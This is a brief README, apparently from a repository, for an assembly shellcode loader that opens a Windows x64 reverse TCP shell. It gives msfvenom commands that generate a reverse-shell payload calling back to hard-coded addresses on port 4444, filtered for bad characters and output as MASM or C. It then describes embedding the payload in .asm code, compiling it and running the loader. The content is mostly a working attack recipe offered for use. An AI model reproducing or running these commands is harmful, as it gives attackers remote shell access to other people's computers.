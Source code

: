 # Assembler, Shellcode Loader (reverse TCP)

## 1. Create and convert your payload


```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.146 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f masm```

## 3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm).

## 4. Compile your ASM

On windows you can use this compiler [script](./compiler.bat)

## 5. Run

One example with a loader + reverse shell code : [here](./reverse.asm)




## OLD
## create
For example with : 

```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c ```

((this command create a shellcode in C language (you can do with python (p) or directly hex (hex)) and encode without "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" which can do comflits))

## 2. Convert your shellcode

Use this homemade [converter_1](./convert.sh) or [converter_2](./convert2.sh) to get your asm shellcode.
